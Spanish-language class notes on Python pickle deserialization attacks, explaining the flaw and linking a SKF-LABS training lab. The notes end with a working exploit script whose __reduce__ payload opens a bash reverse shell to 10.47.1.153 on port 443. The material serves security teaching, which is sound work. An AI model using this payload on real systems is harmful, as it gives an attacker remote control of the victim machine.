 Un Ataque de **Deserialización Pickle** (**DES-Pickle**) es un tipo de vulnerabilidad que puede ocurrir en aplicaciones Python que usan la biblioteca Pickle para serializar y deserializar objetos.

La vulnerabilidad se produce cuando un atacante es capaz de controlar la entrada Pickle que se pasa a una función de deserialización en la aplicación. Si el código de la aplicación no valida adecuadamente la entrada Pickle, puede permitir que un atacante inyecte código malicioso en el objeto deserializado.

Una vez que el objeto ha sido deserializado, el código malicioso puede ser ejecutado en el contexto de la aplicación, lo que puede permitir al atacante tomar el control del sistema, acceder a datos sensibles, o incluso ejecutar código remoto.

Los atacantes pueden aprovecharse de las vulnerabilidades de DES-Pickle para realizar ataques de denegación de servicio (DoS), inyectar código malicioso, o incluso tomar el control completo del sistema.

El impacto de un Ataque de Deserialización Pickle depende del tipo y la sensibilidad de los datos que se puedan obtener, pero puede ser muy grave. Por lo tanto, es importante que los desarrolladores de aplicaciones Python validen y filtren de forma adecuada la entrada Pickle que se pasa a las funciones de deserialización, y que utilicen técnicas de seguridad como la limitación de recursos para prevenir ataques DoS y la desactivación de la deserialización automática de objetos no confiables.

A continuación, se os proporciona el enlace al proyecto de Github el cual estaremos utilizando en esta clase para explotar la vulnerabilidad DES-Pickle:

-   **SKF-LABS DES-Pickle**: [https://github.com/blabla1337/skf-labs/tree/master/python/DES-Pickle](https://github.com/blabla1337/skf-labs/tree/master/python/DES-Pickle)

Un script en python aprovechando que el input del usuario no tien nigun tipo de validacion aprovechando de la vulnerabilidad DES-Pickle tomamos acceso a ala maquina.
```python
		import pickle
   2   │ import os
   3   │ import binascii
   4   │ 
   5   │ class Exploit(object):
   6   │      def __reduce__(self):
   7   │          return (os.system, ('bash -c "bash -i >& /dev/tcp/10.47.1.153/443 0>&1"',))
   8   │ 
   9   │ 
  10   │ if __name__ == "__main__":
  11   │      print(binascii.hexlify(pickle.dumps(Exploit())))
```
